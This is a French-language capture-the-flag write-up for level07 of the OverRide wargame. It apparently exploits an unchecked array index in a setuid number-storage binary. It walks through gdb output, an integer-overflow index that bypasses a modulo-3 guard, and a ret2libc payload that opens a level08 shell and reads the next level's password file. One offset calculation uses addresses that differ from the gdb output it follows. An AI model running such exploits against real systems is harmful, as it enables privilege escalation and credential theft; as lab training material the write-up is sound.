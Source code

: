 ## Comportement
- J'ai des droits `level06` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level08 users   11744 Sep 10  2016 level07*`
En exécutant le binaire (`./level07`), on observe:
    - 3 commandes possible : lire, stocker des nombres et quitter.  
    ```shell
    level07@OverRide:~$ ./level07 
    ----------------------------------------------------
    Welcome to wil's crappy number storage service!   
    ----------------------------------------------------
    Commands:                                          
        store - store a number into the data storage    
        read  - read a number from the data storage     
        quit  - exit the program                        
    ----------------------------------------------------
    wil has reserved some storage :>                 
    ----------------------------------------------------

    Input command: read
    Index: 11
    Number at data[11] is 0
    Completed read command successfully
    Input command: store
    Number: 42
    Index: 11
    Completed store command successfully
    Input command: read
    Index: 11
    Number at data[11] is 42
    Completed read command successfully
    Input command: quit
    level07@OverRide:~$ 
    ```


## Analyse
En analysant le binaire (`gdb ./level07`) on observe:
- Argv et Env sont remis a zero par securite : il ne sera donc pas possible d'y mettre un shellcode ici.
- Le programme stock des nombres dans un tableau de taille 100 mais ne fait aucune verification quant a l'index que lui envoie pour voir s'il est bien compris entre 0 et 99. On peut donc lire et ecrire au dela. On a donc acces a la stack.
    ```shell
    level07@OverRide:~$ ./level07 
    ----------------------------------------------------
    Welcome to wil's crappy number storage service!   
    ----------------------------------------------------
    Commands:                                          
        store - store a number into the data storage    
        read  - read a number from the data storage     
        quit  - exit the program                        
    ----------------------------------------------------
    wil has reserved some storage :>                 
    ----------------------------------------------------

    Input command: read
    Index: -123
    Number at data[4294967173] is 4294955824
    Completed read command successfully
    Input command: store
    Number: 99
    Index: -123
    Completed store command successfully
    Input command: read
    Index: -123
    Number at data[4294967173] is 99
    Completed read command successfully
    Input command: quit
    ```
- Chaque index sur 3 est protege et on ne peut rien y ecrire. (i % 3 == 0)


## Résolution
- Tout d'abord trouvons l'adresse du tableau dans lequel sont stockees les donnees : 
    ```shell
    (gdb) b read_number
    Breakpoint 1 at 0x80486dd
    (gdb) run
    Starting program: /home/users/level07/level07 
    ...
    Input command: read

    Breakpoint 1, 0x080486dd in read_number ()
    (gdb) x $ebp+0x8   # Le tableau est load avec = `DWORD PTR [ebp+0x8]`
    0xffffd430:	0xffffd454
    ```
- 0xffffd430 est l'adresse où est stockée l'adresse du tableau et 0xffffd454 est l'adresse du tableau lui-même. Pour obtenir l'indice où est stockée l'adresse du tableau sur le tableau, nous devons calculer la différence entre ces 2 adresses et la divisee par 4 puisque c'est un tableau d'int : 
```shell
(0xffffd440 - 0xffffd464) / 4 = -36 / 4 = -9
```
- L'index de l'adresse du tableau pendant le runtime est donc -9.
- Maintenant on doit trouver l'adresse de l'EIP pour l'overwrite : 
    ```shell
    (gdb) b *0x0804892b    #0x0804892b <+520>:	call   0x80486d7 <read_number>    ; ret = read_number()
    Breakpoint 1 at 0x804892b
    (gdb) run
    ...
    Input command: read

    Breakpoint 1, 0x0804892b in main ()
    (gdb) info frame
    ...
    Saved registers:
    ebx at 0xffffd60c, ebp at 0xffffd618, esi at 0xffffd610,
    edi at 0xffffd614, eip at 0xffffd61c

    (gdb) p/d (0xffffd61c - 0xffffd454) / 4 # on calcule comme l'etape precedente.
    $1 = 114 # malheureusement cet index ets protege (114 % 3 == 0)
    ```
- L'index 114 etant protege, nous allons overflow l'int. En utilisant la valeur maximale d'un entier non signé (UINT_MAX), divisée par 4, on obtient 1073741824. Cette valeur, multipliée par 4 dans le programme, provoque un overflow, résultant en zéro. Pour exploiter cela, on ajoute 114 (= 1073741938) utilisant ainsi l'overflow à notre avantage. Cela contourne bien la securite en place.
- Enfin, nous allons utiliser un ret2libc. Il nous faut donc les adresses suivantes : 
    ```shell
    info function system
    0xf7e6aed0 = 4159090384  system

    info function exit
    0xf7e5eb70 = 4159040368  exit

    Adresse de /bin/sh:
    find __libc_start_main,+99999999,"/bin/sh"
    0xf7f897ec = 4160264172
    ```
- Il ne reste plus qu'a mettre tout en place : 
    ```shell
    $ ./level07 
    ...
    Input command: store
    Number: 4159090384
    Index: 1073741938
    Completed store command successfully
    Input command: store
    Number: 4160264172
    Index: 116
    Completed store command successfully
    Input command: quit
    ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level08`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/users/level08/.pass`)
  - quitter le shell (`exit`)
  - et passer au level08 (`su level08`) en renseignant ce password.
  